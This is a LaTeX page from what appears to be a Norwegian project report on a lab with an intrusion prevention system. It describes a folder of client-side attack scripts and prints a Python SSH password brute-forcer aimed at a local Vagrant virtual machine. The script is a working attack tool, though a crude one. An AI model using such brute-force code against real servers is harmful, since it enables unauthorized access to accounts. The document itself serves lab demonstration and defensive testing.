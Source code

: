 \documentclass{article}
\begin{document}
\subsubsection{Client - mappa}
Som subkatalog i ''bin'' - mappa finner vi ''Client''. Denne mappa inneholder programmer og skript som er ment for kjøring på \textit{klient,} altså ikke rett på den virtuelle serveren. Disse skriptene er gjerne angrepsskript som skal kjøres mot serveren. Et eksempel er skriptet ''ssh\_forcer.py'', som er et Python - skript som prøver å bruteforce SSH - pålogging på serveren, som en del av demonstrasjonen av et IPS - system: 
\newpage
\begin{lstlisting}
#!/usr/bin/python
import paramiko
import itertools,string,crypt

PASSSIZE = 5
IPADDRESS = "127.0.0.1"
USERNAME = "vagrant"
SSHPORT=2222

# Run /vagrant/bin/pythonDependencies.bash to get all dependencies.
# Generates a password of containing only digits with a size of PASSSIZE

var = itertools.combinations(string.digits,PASSSIZE)

try:
    for i in var:
        passwd = ''.join(i)

        ssh = paramiko.SSHClient()
        ssh.load_system_host_keys()
        ssh.set_missing_host_key_policy(paramiko.MissingHostKeyPolicy())

        try:
            ssh.connect(IPADDRESS , port=SSHPORT, username=USERNAME, password=passwd)
            print "Connected successfully. Password = "+passwd
            break
        except paramiko.AuthenticationException, error:
            print "Incorrect password: "+passwd

        except socket.error, error:
            print error

        except paramiko.SSHException, error:
            print error
            print "Most probably this is caused by a missing host key"

        except Exception, error:
            print "Unknown error: "+error

        ssh.close()


except Exception,error :
    print error
\end{lstlisting}
Det er ikke alt for mange skript i denne katalogen nå, men det er fritt fram å legge til. 
\subsection{Resoruces - katalogen}
\end{document}
